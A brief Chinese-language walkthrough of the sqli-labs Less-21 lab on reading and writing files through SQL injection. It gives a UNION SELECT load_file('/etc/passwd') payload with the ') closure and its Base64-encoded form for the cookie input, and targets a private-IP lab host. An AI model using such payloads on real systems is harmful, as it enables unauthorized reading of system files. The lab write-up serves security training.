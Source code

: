 




# less21

sql注入读写文件

1、注入点和Less-20的相同，请参考Less-20的分析，也可以采用Less-20的方法注入。
但是这一关想考查的是利用sql注入读写文件。
Less-20: https://blog.csdn.net/bigblue00/article/details/108996908

2、sql注入读写文件的理论分析请参考Less-7。注入的语句也相同，只是两关一个是GET方法一个是POST方法。
Less-7: https://blog.csdn.net/bigblue00/article/details/106765249

注入点的**闭合方式**是 ') 即单引号加小括号，注入点的数据用 Base64进行了编码，所以注入语句也要用base64进行编码。
例如：读取 /etc/passwd 文件采用的语句如下：
`') union select 1,load_file("/etc/passwd"),3#`
进行base64编码后：
`JykgdW5pb24gc2VsZWN0IDEsbG9hZF9maWxlKCIvZXRjL3Bhc3N3ZCIpLDMj`
在这里插入图片描述

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less21-cookie.assets/watermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JpZ2JsdWUwMA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center.png)



## POST- Dump into outfile - String

http://10.10.202.112/sqli/Less-21/index.php

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less21-cookie.assets/1603917-20190620171629363-46772792.png)
